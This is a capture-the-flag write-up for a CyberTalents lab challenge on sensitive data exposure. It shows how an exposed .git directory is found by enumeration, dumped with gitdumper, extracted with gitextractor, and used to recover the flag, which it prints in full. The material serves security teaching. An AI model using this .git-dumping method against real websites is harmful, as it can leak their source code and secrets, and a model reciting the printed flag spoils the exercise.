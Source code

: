 # Lesson 11: Sensitive Data Exposure

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/11-sensitive-data-exposure](https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/11-sensitive-data-exposure)*

## Introduction

In this lesson, we will learn about Sensitive Data Exposure, how can we find some unintentionally exposed sensitive data.

## Challenge

> Name:\
> *Maximum Courage*

---

> Description:\
> *Max prefers to learn by practicing and not just reading all day, so he set up a webserver and hopes it stays secret, can you prove it has a weakness?*

## Solution

In this challenge, we have a website, and we need to find a way to get the flag.

If we take a look at the home page of the website, we will find a link to the `flag.php` file, so let's take a look at it.

```php
You can't view this flag directly.
<!-- PHP source doesn't appear on HTML comments -->
```

So, we can't view the flag directly, we need to find a way to view the full source code of the php file.

We Could try to use directory enumeration any other helpful paths.

aAfter some enumeration, we will find theses paths:

```bash
/flag.php
/.git
```

So, we have a php file, and a `.git` directory, let's take a look at the `.git` directory. we find that it is forbidden, so we need to find a way to bypass it.

There is a collection of git tools, and one of them is `gitdumper`, we can use it to dump the `.git` directory.

```bash
gitdumper http://wlemxwl32epheze6eg23gmgi834k4nzy52xmanzk-web.cybertalentslabs.com/.git/ ./maximumCourage
```

After dumping the `.git` directory, we still got nothing useful at the first look, but if we used another tool called `gitextractor`, like this:

```bash
gitextractor ./maximumCourage ./maximumCourageExtracted
```

we will get an a new directory called `maximumCourageExtracted`, and inside it, we will find a directory called `0-190de370286e98dda6813ac9c05f679ad60d9f9c`, and inside it, we will find a file called `flag.php`, and if we take a look at it, we will find the flag.

```php
You can't view this flag directly.
<!-- PHP source doesn't appear on HTML comments -->
<?php
exit();
die();
$secret_key = 'be607453caada6a05d00c0ea0057f733';
?>%
```

So, here we have the flag.

## Flag

> be607453caada6a05d00c0ea0057f733

## References

*Sensitive data exposure is a vulnerability that occurs when an application or service exposes sensitive data to an attacker. Sensitive data can include anything from personally identifiable information (PII) to financial information to intellectual property. Sensitive data exposure can occur in a variety of ways, including:*\
*• Exposing sensitive data in logs or error messages*\
*• Exposing sensitive data in URLs*\
*• Exposing sensitive data in HTML comments*\
*• Exposing sensitive data in HTML source code*\
*• Exposing sensitive data in JavaScript source code*\
*• etc...*

*Sensitive data exposure is a common vulnerability that can lead to a variety of attacks, including:*\
*• Account takeover*\
*• Data theft*\
*• Data manipulation*\
*• etc...*

- [https://github.com/internetwache/GitTools](https://github.com/internetwache/GitTools)
